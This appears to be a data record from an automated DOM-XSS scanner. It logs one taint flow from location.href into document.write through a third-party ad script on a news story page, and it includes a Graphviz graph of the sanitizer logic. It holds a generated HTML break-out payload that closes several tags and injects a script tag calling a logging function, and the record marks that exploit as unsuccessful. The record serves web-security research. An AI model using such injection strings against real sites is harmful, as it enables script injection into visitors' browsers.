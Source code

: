 // Finding: 68a2a24b-1ee5-475b-ae32-c150e919de19
// Finding.url: https://www.example391.com/story/map-reveals-the-most-underrated-places-in-every-u-s-state/
// Finding.parentloc: https://www.example391.com/story/map-reveals-the-most-underrated-places-in-every-u-s-state/##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('61e7f58d804f45fcbfc99c38138d6489')</script><!--/*
// Finding.domain: www.example391.com
// Finding.base_domain: example391.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=95577&cbuster=269137382&pubUrl=https://www.example391.com/story/map-reveals-the-most-underrated-places-in-every-u-s-state/%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%2761e7f58d804f45fcbfc99c38138d6489%27)%3C/script%3E%3C!--/*&x=750&y=509&vp_content=plembedc39qsoputykn&vp_template=3455&schain=1.0,1!newormedia.com,689,1 - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 581
// Finding.end: 758
// Finding.original_uuid: d6745191-bbdd-4d98-b277-0cd125c14aa1
// Finding.TwentyFiveMillionFlowsId: -536737261
// Finding.script: https://live.example5.com/live/liveView.php?s=95577&cbuster=269137382&pubUrl=https://www.example391.com/story/map-reveals-the-most-underrated-places-in-every-u-s-state/%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%2761e7f58d804f45fcbfc99c38138d6489%27)%3C/script%3E%3C!--/*&x=750&y=509&vp_content=plembedc39qsoputykn&vp_template=3455&schain=1.0,1!newormedia.com,689,1
// Finding.line: 914
// Exploit.uuid: 61e7f58d-804f-45fc-bfc9-9c38138d6489
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 86
// Exploit.replace_begin_url: 86
// Exploit.replace_end_url: 86
// Exploit.replace_begin_param: 398
// Exploit.replace_end_param: 398
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1232302442
// DepGraph.sanitizer_hash: -128109819

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=95577&cbuster=269....late=3455&schain=1.0,1!newormedia.com,689,1&cbuster=1620643260"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 750"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 509"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="."];
n20 [shape=box, label="Lit: &csuuid=60990dbc55f67"];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit: &videoType=flow&floatWidth=400&floatHeight=225&floatDirection=....0&floatCloseBtn=1&flowMode=below&flowCloseButtonPosition=right"];
n23 [shape=box, label="Var: x"];
n24 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n19 -> n15;
n19 -> n20;
n21 -> n19;
n21 -> n22;
n23 -> n21;
n24 -> n23;
}